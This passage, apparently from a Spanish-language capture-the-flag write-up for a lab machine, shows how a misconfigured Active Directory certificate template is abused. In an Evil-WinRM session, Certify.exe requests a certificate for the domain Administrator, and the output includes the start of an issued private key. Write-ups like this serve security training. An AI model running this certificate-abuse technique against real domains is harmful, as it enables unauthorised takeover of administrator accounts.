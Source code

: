 ![](/assets/img/commons/Escape/cap10.png)

La exploitación para ese template esta en este [POC](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-misconfigured-certificate-template-to-domain-admin)

```shell
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Desktop> .\Certify.exe request /ca:dc.sequel.htb\sequel-DC-CA /template:UserAuthentication /altname:Administrator

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.1.0

[*] Action: Request a Certificates

[*] Current user context    : sequel\Ryan.Cooper
[*] No subject name specified, using current context as subject.

[*] Template                : UserAuthentication
[*] Subject                 : CN=Ryan.Cooper, CN=Users, DC=sequel, DC=htb
[*] AltName                 : Administrator

[*] Certificate Authority   : dc.sequel.htb\sequel-DC-CA

[*] CA Response             : The certificate had been issued.
[*] Request ID              : 10

[*] cert.pem         :

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAtlaU7JH78TmSV8w/IqmFEHVAyBEQ8Ay6S6jLisyVAGp8S7w9
rVm2juZevaEN/x3X+7UhCoQunqV/mYSjliQGVmS2RoZE0hrMgmtwyvKyd+u4S2Ih
ySEXpavGngH16FpYDuWREVJYXTFmA6bd8JMijtchO0vVt+NLlsq03qj3d/PsCNiB
TbwDVVocTZo6VKg2IF1fMwSptSXdfrpJmv2oyUY22ODNVmxk9E/Mk8vp7RNR2QqA
```